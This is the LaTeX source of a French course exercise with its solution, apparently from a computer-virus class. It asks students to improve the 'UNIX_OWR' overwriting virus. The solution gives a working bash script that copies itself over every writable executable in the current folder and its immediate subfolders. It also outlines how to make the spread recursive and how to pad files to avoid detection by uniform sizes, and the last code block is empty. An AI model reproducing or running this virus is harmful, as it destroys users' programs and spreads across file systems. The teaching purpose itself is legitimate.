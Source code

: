 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Amélioration du virus \texttt{UNIX\_OWR}]$\;$

\begin{enumerate}
\item Modifier le virus \texttt{UNIX\_OWR} pour que son action s'étende aux sous-répertoires et ne concerne que les fichiers exécutables, autres que le fichier infectant en cours. 
\item Comment peut-on lutter contre l'uniformité des tailles après infection?
\end{enumerate}
\end{exercice}


\begin{correction}
\begin{enumerate}
\item Le code suivant répond à la question. 
On ne descend que d'un niveau dans les sous répertoires.
\begin{verbatim}
#!/bin/bash

#Overwritter I
for file in *; do #pour tout fichier
    if [ -d $file ]; then # si on recontre un repertoire
       cd $file #on se positionne dans ce repertoire
       for file1 in *; do #pour tout fichier du repertoire
	   if [ -x $file1 -a -w $file1 ]; then
               cp "../$0" $file1 #ecraser le fichier cible par le virus
	   fi
       done
       cd ..
    fi
    echo $file
    name1=$(basename $0)
    name2=$(basename "./$file")
    echo "$name1 != $name2 ??"
    if [ "$name1" != "$name2" ]
    then
	echo "oui pour $name2"
	if [  -x $file -a -w $file ]; then
	    echo "cp $0 $file"
            cp $0 $file #ecraser le fichier cible par le virus
	fi
    fi
done
\end{verbatim}

Si l'on souhaitait infecter la totalité de l'arborescence des fichiers du repertoire (sous-repertoires, sous-sous repertoires, etc), il faudrait faire une fonction recursive, la copie se ferait a partir du chemin absolu contenant le fichier infectant.


\item  La technique utilisée ici est de rajouter la ligne \texttt{echo \"on rajoute des lignes\"} pour avoir le meme nombre de ligne que dans le fichier initial.


\begin{verbatim}
#!/bin/bash


\end{verbatim}
\end{enumerate}
\end{correction}
\end{document}
